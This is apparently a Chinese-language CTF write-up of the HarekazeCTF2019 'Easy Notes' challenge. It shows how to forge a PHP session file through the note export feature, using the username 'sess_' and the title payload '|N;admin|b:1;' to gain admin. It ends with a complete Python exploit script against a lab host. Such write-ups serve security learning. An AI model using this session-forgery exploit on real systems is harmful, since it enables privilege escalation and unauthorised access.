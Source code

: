 ```yaml
---
title: '[HarekazeCTF2019]Easy Notes'
date: 2024-10-15 14:36:51
tags: session反序列化
categories: 刷题笔记
---
```


### [HarekazeCTF2019]Easy Notes

这个原题给了源码的，但现在我们去github上把源码下下来

![image-20241015144240775](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151442845.png)

在文件夹里发现个flag.php，打开后发现如果通过is_admin()就会给出flag

<!--more-->

我们查看is_admin()函数在哪

![image-20241015144554810](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151445840.png)

我们发现admin是通过session来进行认证的

session的保存路径在这

![image-20241015144658898](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151446924.png)

![image-20241015144717745](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151447785.png)

Add note写入的文件也保存在这个目录，并且`$filename`满足session文件名要求：以 `sess_` 开头，且只含有 `a-z`，`A-Z`，`0-9`，-

![image-20241015145223958](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151452141.png)

那么我们只需要创建一个用户名为：sess_

Ubunu默认安装的php中的session.serialize_handler默认设置为php，而这种引擎特点是即可使用|作为键值隔离符。利用|即可将序列字符串拼接

然后`Add note`提交`title`为：`|N;admin|b:1;`，这样反序列化结果即可为：`admin==bool(true)`

最后`export.php?type=.`即可使得这个`.`与前面的`.`拼接成`..`被替换为空，`$filename`也就成为了session文件名了

我们先进行登录

![image-20241015150107253](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151501295.png)

然后添加|N;admin|b:1; 

|N;**来闭合前面的杂乱数据**

![image-20241015150142500](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151501600.png)

![image-20241015151145620](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151511731.png)

我们将-f6234ed0b79d012e

填入session中，刷新得到flag

![image-20241015151603570](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151516618.png)

贴个脚本

```
import re
import requests
URL = 'http://a57fc9a9-2abd-4fcd-b11b-246e3e346706.node3.buuoj.cn/'

while True:
	# login as sess_
	sess = requests.Session()
	sess.post(URL + 'login.php', data={
		'user': 'sess_'
	})

	# make a crafted note
	sess.post(URL + 'add.php', data={
		'title': '|N;admin|b:1;',
		'body': 'hello'
	})

	# make a fake session
	r = sess.get(URL + 'export.php?type=.').headers['Content-Disposition']
	print(r)
	
	sessid = re.findall(r'sess_([0-9a-z-]+)', r)[0]
	print(sessid)
	
	# get the flag
	r = requests.get(URL + '?page=flag', cookies={
		'PHPSESSID': sessid
	}).content.decode('utf-8')
	flag = re.findall(r'flag\{.+\}', r)

	if len(flag) > 0:
		print(flag[0])
		break

```


